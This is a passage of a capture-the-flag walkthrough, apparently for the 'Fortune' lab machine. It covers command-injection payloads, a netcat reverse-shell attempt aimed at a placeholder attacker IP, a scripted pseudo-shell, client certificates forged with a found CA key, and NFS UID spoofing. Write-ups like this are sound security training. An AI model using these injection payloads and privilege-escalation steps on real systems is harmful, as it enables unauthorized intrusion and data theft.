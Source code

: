 5. **Exploiting Command Injection**
   - **Technique**: Command injection via POST parameter
   - **Step**: Tested commands like `;which nc` (confirmed Netcat presence) and attempted reverse shell (`;nc -lvnp 443 [ATTACKER-IP]`), but failed due to firewall. Used `;tcpdump -i any icmp` to confirm ICMP connectivity.
   - **Findings**: Command injection allowed arbitrary command execution, but outbound connections were blocked.

6. **Automating Command Injection with Python Script**
   - **Technique**: Scripting for pseudo-shell
   - **Step**: Created a Python script (`cmd_inject.py`) using the `requests` library to send POST requests with injected commands (e.g., `db=echo -n please_support_me;cmd;echo -n on_patreon`). Used regex to extract command output between markers.
   - **Findings**: Established a reliable pseudo-shell for executing commands and retrieving output.

7. **System Enumeration via Pseudo-Shell**
   - **Technique**: File and process enumeration
   - **Step**: Ran commands like `ps -ax`, `find /var/www`, and `ls -la /var/www` to explore the system. Identified a Flask app (`fortune.py`) and a PostgreSQL password file (`/var/www/ssh_auth/pg_pass`).
   - **Findings**:
     - Discovered `fortune.py` (vulnerable Flask app with no input sanitization via `os.popen`).
     - Found `ssh_auth.py` and `authpf` configuration, indicating SSH-based firewall rule updates.

8. **Certificate Generation for Port 443 Access**
   - **Technique**: SSL client certificate creation
   - **Step**:
     - Located intermediate CA certificate (`intermediate.cert.pem`) and key (`intermediate.key`) in `/home/bob`.
     - Generated a private key (`openssl genrsa -out ipsec.key 2048`), certificate signing request (`openssl req -new -key ipsec.key -out ipsec.csr`), and signed certificate (`openssl x509 -req -in ipsec.csr -CA intermediate.cert -CAkey intermediate.key -out ipsec.pem`).
     - Packaged certificate into PKCS12 format (`openssl pkcs12 -export -out ipsec.pfx -inkey ipsec.key -in ipsec.pem -certfile intermediate.cert`) and imported into Firefox.
     - Adjusted system time to resolve certificate validation issues.
   - **Findings**: Successfully accessed `https://fortune.htb`, which provided an SSH key for the `nfsuser`.

9. **SSH Access as `nfsuser`**
   - **Technique**: SSH authentication with provided key
   - **Step**: Used `ssh -i fortune.ssh nfsuser@[TARGET-IP]` to log in. Ran `nmap -v [TARGET-IP]` to discover new ports (111, 8081, 2049).
   - **Findings**: Gained shell as `nfsuser`; new ports opened due to `authpf` rules (BSD packet filter).

10. **NFS Share Exploitation**
    - **Technique**: NFS mounting and UID manipulation
    - **Step**:
      - Installed `nfs-common` and ran `showmount -e [TARGET-IP]` to identify `/home` share accessible to everyone.
      - Mounted the share (`mount -t nfs -o vers=2 [TARGET-IP]:/home /mnt`).
      - Modified local user `pleasesub` UID to 1000 (matching `charlie`) to access `/mnt/charlie`.
    - **Findings**: Accessed `charlie`'s home directory, including `user.txt` and an `mbox` file indicating the PostgreSQL password equals the root password.
